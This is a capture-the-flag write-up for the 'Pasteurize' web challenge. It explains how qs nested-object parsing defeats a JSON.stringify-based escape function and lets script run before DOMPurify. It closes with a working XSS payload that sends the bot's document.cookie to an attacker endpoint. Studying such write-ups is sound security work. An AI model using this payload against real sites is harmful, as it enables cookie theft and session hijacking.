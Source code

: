 ## Pasteurize
This was the introductory web challenge for the CTF.  

The webapp allows its users to create pastes and share them with "*TJMike*".  
This suggests that we have to exploit a client-side vulnerability and then use the share feature to send the payload to the bot.  

A comment in the HTML code of the page revealed the presence of an endpoint showing the sources of the NodeJS application at */source*.  

### DOMPurify and the custom escape function
Upon inspection of the code I saw that the user input was sanitized using [DOMPurify](https://github.com/cure53/DOMPurify) on the browser and through some strange function in Node.  
`const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1).replace(/</g, '\\x3C').replace(/>/g, '\\x3E');`  
The function looked sketchy:
- It makes a JSON string
- Then it slices the first and last character
- Finally it HTML-encodes the **<** and **>** characters through a regex **globally**

When given a normal string as input, the slice function will just remove the quotation marks added by *JSON.stringify*.  

### Bypass using JSON Nested Objects
While reading more of the source I noticed this piece of code  
```
app.use(bodyParser.urlencoded({
        extended: true
}));
```
It's important because when **extended** is set to **true** *Express* will use [qs](https://www.npmjs.com/package/qs) instead of [query-string](https://www.npmjs.com/package/query-string) to parse the parameters, allowing us to use **JSON Nested Objects**.  

This means that if an object (or an array) was to pass through *JSON.stringify* it would be wrapped in parenthesis, defying the **slice** "protection" and allowing us to inject quotation marks in the Javascript ran on the page!  

As an example, `["abc","bcd"]` would become `"abc","bcd"`.  
This means that when the page is rendered the *quotation marks* will close those used to save the user input in a *const*.  
Now we can execute whatever code we want before **DOMPurify**'s *sanitize* function is called!  


<img src="client_side.png" alt="Example using alert(1)">

Now we just share the paste with *TJMike* to get their cookie and send it to an endpoint controlled by us and there's the flag!  

<img src="flag.png" alt="Flag">

The payload I used in the *POST* request during the competition is the following:  
`content=;eval(window.location.href='https://myendpoint.com?flag='.concat(document.cookie));//&content`  

It basically creates an array and then comments the broken Javascript following the injection.  

